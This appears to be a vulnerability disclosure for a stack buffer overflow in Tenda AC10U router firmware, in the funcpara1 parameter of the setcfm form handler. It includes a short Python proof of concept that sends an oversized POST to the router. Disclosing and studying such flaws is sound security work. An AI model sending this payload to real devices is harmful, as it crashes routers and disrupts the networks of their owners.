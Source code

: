 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3170.html

## Affected version

AC10U v1.0 Firmware V15.03.06.48

## Vulnerability details

The Tenda AC10U v1.0 Firmware V15.03.06.48 has a stack overflow vulnerability located in the `formSetCfm` function. This function accepts the `funcpara1` parameter from a POST request and passes it to the `save_list_data` function. Within `save_list_data`, the array `mib_name` is fixed at 64 bytes. However, since the user has control over the input of `funcpara1`, the statement `sprintf(mib_name, "%s.list%d", list_name, counta);` leads to a buffer overflow. The user-supplied `funcpara1` can exceed the capacity of the `mib_name` array, thus triggering this security vulnerability.

![image-20240313222813668](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313222813668.png)

![image-20240313223020771](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313223020771.png)

![image-20240313223033243](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313223033243.png)

## POC

```python
import requests as re

s = re.Session()
url_base = 'http://192.168.84.101/'

# Send payload
url = url_base + 'goform/setcfm'
data = {
        'funcname': 'save_list_data', 
        'funcpara1': b'a'*0x500, 
        'funcpara2':'aaaaaa'
}

res = re.post(url, data=data)
```

![image-20240313223242214](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313223242214.png)